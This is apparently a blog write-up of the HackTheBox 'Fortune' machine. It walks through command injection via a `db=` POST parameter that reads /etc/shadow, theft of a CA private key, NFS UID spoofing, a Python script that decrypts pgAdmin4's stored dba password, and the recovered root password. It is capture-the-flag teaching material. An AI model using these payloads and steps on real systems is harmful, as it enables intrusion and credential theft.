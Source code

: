 ```yaml
---
title: "HackTheBox - WriteUp 11"
date: 2019-07-05T19:10:22+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Fortune

## User

Nmap it: 22,80,443.

Then, Access 80. Burpsuite, try to submit the form, found a POST at `/select` with `db=blahblah`, This param included RCE, modify the request like this: `db=blah;cat /etc/shadow`, you'll get the response.

Found a user called `charlie`, `bob`, `nfsuser`. Then use the RCE we just found to read two files:

- /home/bob/ca/intermediate/private/intermediate.key.pem
- /home/bob/ca/intermediate/certs/intermediate.cert.pem

Then use this to create a cert: `openssl pkcs12 -inkey intermediate.key.pem -in intermediate.cert.pem -export -out inter_pfx.pfx`, and then import this certificate to your browser.

> https://www.openbsd.org/faq/pf/authpf.html

Finally, access the 443 port and get the RSA keys of SSH, then login as `nasuser` with the key you've just get. Keep the connection alive to let you continue your operation.

Nmap again, you'll find the NFS port is opened. Then `apt install nfs-common -y`, enum the nfs share with `nmap -oN fortune.nfsshowmount.nmap --script=nfs-showmount 10.10.10.127`, you'll get home shared. Mount the NFS using `mount.nfs 10.10.10.127:/home /mnt/nfs1`. NFS has a UID mapping. So create a user with UID 1000, access `/mnt/nfs1/charlie`, then you have the `user.txt`.

## Root

After that, the home folder contains a file called `mbox`, this is a mail archive telling you that dba password is the same as the root.

Check the process list, you will find postgresql and `pgadmin4`. Check `/var/appsrv/pgadmin4`, there is a `PGAdmin4 V3.4` here, but installed on `/usr/local/pgadmin4`, check the folder, from the `<PGADMIN4>/web/utils/crypto.py`, you will find how to decrypt the hash we will got.

Then, at `/var/appsrv/pgadmin4/pgadmin4.db`, use `select * from server;`, the hash you've found is the hashed key of dba, and this hash is encrypted using AES-128-CFB, ciphertext is encoded in base64 with IV attached.

The encrypt password is the logged-in user's password, use `select * from user;`, just use the bob's hashed password as the encryption password, and decrypt. Decryptor Script as below:

```python
#!/usr/bin/env python3

import base64
import hashlib

from Crypto import Random
from Crypto.Cipher import AES

padding_string = b'}'

def pad(key):
    """Add padding to the key."""

    global padding_string
    str_len = len(key)

    # Key must be maximum 32 bytes long, so take first 32 bytes
    if str_len > 32:
        return key[:32]

    # If key size id 16, 24 or 32 bytes then padding not require
    if str_len == 16 or str_len == 24 or str_len == 32:
        return key

    # Convert bytes to string (python3)
    if not hasattr(str, 'decode'):
        padding_string = padding_string.decode()

    # Add padding to make key 32 bytes long
    return key + ((32 - str_len % 32) * padding_string)

    
def decrypt(ciphertext, key):
    """
    Decrypt the AES encrypted string.
    Parameters:
        ciphertext -- Encrypted string with AES method.
        key        -- key to decrypt the encrypted string.
    """

    global padding_string

    ciphertext = base64.b64decode(ciphertext)
    iv = ciphertext[:AES.block_size]
    cipher = AES.new(pad(key), AES.MODE_CFB, iv)
    decrypted = cipher.decrypt(ciphertext[AES.block_size:])

    return decrypted
    

cept = "utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz".encode()
key4aes = "$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg".encode()
print(decrypt(cept,key4aes).decode())
```

The decrypted password is: `R3us3-0f-a-P4ssw0rdl1k3th1s?_B4D.ID3A!`

Then `su root` and do anything you want.

(END)

